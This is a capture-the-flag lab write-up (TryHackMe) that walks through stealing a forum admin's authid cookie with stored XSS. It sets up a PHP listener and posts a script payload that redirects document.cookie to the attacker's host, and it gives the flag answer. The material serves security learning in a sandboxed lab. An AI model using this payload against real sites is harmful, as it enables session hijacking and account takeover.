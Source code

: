 ## Introduction

> McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT   
> _we need to learn more about the christmas monster_   
> During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.  
> Access the machine at http://[your-ip-address]:3000 - it may take a few minutes to deploy.   

> [Check out the supporting material here](./Supporting_Docs.pdf).

> P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth.


## Questions

> What is the admin's authid cookie value?

td:lr Answer: **2564799a4e6689972f6d9e1c7b406f87065cbf65**


===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can start a web browser and navigate to the IP address provided:

`<ip>:3000`

![](./res/pic1.png)

We need to register for an account and log in. Then we will see a simple forum layout within:

![](./res/pic2.png)

For this exercise, we need to steal admin's authid cookie value and have it submitted to a remote page hosted by us so we see its value.

So first we need to create a root directory, and create a index.html and a PHP page:

`mkdir cookiestealer`
`cd cookiestealer/`
`touch index.html`
`touch cookiestealer.php`

Within the index.html, we can setup some parameters to test it's working:

> <html>  
> <head>  
> <title> Stealer!</title>  
> </head>  
> <body>  
> <script type="text/javascript">  
> urlstring = new URL(window.location.href);
> document.write("Cookie value: " + urlstring.searchParams.get("c")); 
> </script>

Let's set up our simple web hosting using php:

`php -S <ip>:80`  
then we open a web browser and go to that IP:

![](./res/pic3.png)

Ok our page is working, and we successfully grabbed the URL param.

We can also see the URL params on our command line:

![](./res/pic4.png)

Now all we need to do is perform a simple XSS injection into the forum, such that anyone who visits the forum will automatically have its cookie redirected to our web page.

Back at the forum, let's inject this into the forum post:

`<script type="text/javascript"> document.location='http://<ip>/index.html?c='+document.cookie; </script>`

Now all we need to do is wait for the admin to visit the forum, then our XSS scripting post will redirect admin's cookie to our web page...

Check out our command line after a few minutes:

![](./res/pic5.png)

And there we got the admin's authid cookie value: **2564799a4e6689972f6d9e1c7b406f87065cbf65**




